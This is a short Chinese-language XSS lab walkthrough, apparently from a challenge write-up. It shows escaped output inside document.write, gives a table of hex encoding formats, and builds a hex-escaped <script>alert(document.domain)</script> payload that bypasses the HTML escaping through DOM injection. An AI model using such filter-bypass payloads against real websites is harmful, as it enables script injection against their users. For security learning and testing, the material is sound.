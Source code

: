提交符号

```
">
```

回显源码

```
<script>document.write("&quot;&gt;");</script>
"&gt;
```

> 可以看到 > 被转义
>
> 但是存在传递，可以利用 dom 类型漏洞

| 十六进制的应用 |
| :------------: |

| 编码               | 格式             | 备注              |
| ------------------ | ---------------- | ----------------- |
| URL                | %hex             |                   |
| XML,XHTML          | &#xhex           |                   |
| HTML,CSS           | #hex             | 6 位,用于表示颜色 |
| Unicode            | U+hex            | 6 位,表示字符编码 |
| MIME               | =hex             |                   |
| Modula-2           | #hex             |                   |
| Smalltalk,ALGOL 68 | 16rhex           |                   |
| Common Lisp        | #xhex 或#16rhex  |                   |
| IPv6               | 8 个 hex 用:分隔 |                   |

构造 payload 

```
<script>alert(document.domain);</script>
```

对 <进行编码

```
\x3c
```

提交 `\\x3c`

> 第一个 \ 是将第二个 \ 转义，避免第二个 \ 转后面的内容

> 执行后第二个回显源码为 <

对 payload 进行 hex 编码

```
\\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e
```
